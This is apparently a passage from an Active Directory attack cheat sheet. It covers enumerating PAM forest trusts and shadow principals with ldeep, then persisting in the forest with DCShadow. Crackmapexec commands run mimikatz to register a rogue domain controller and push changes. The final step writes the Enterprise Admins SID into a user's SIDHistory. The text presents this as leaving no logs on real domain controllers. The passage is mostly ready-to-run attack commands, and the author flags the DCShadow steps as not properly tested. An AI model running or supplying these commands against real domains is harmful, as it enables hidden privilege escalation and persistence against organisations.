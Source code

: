 `ForestTransitive` must be **true**

```bash
ldeep ldap -u user1 -p password -d domain.local -s <LDAP_server_IP> trusts
```

A trust attribute of `1096` is for PAM (`0x00000400`) + External Trust (`0x00000040`) + Forest Transitive (`0x00000008`).

#### Get the shadow security principals

```bash
ldeep ldap -u user1 -p password -d domain.local -s <LDAP_server_IP> object "Shadow Principal Configuration" -v |jq '.[].name, .[].member, .[]."msDS-ShadowPrincipalSid"'
```


* `Name` - Name of the shadow principal
* `member` - Members from the bastion forest which are mapped to the shadow principal
* `msDS-ShadowPrincipalSid` - The SID of the principal (user or group) in the user/prodcution forest whose privileges are assgined to the shadow security principal. In our example, it is the Enterpise Admins group in the user forest

These users can access the production forest through the trust with classic workflow (PSRemoting, RDP, etc), or with `SIDHistory` injection since `SIDFiltering` in a **PAM Trust**.

## Forest Persistence - DCShadow

**MUST BE TESTED MORE CORRECTLY**

* DCShadow permits to create a rogue Domain Controller on a standard computer in the AD. This permits to modify objects in the AD without leaving any logs on the real Domain Controller
* The compromised machine must be in the **root domain** on the forest, and the command must be executed as DA (or similar)

The attack needs 2 instances on the compromised machine.

* One to start RPC servers with SYSTEM privileges and specify attributes to be modified

```bash
crackmapexec smb <target> -u Administrator -p password -M mimikatz -o COMMAND='"token::elevate" "privilege::debug" "lsadump::dcshadow /object:<object_to_modify> /attribute:<attribute_to_modify> /value=<value_to_set>"'
```

* And second with enough privileges (DA or otherwise) to push the values :

```bash
crackmapexec smb <target> -u Administrator -p password -M mimikatz -o COMMAND='lsadump::dcshadow /push' --server-port 8080
```

### Set interesting attributes

#### Set SIDHistory to Enterprise Admin

```bash
lsadump::dcshadow /object:user1 /attribute:SIDHistory /value:S-1-5-21-280534878-1496970234-700767426-519
```
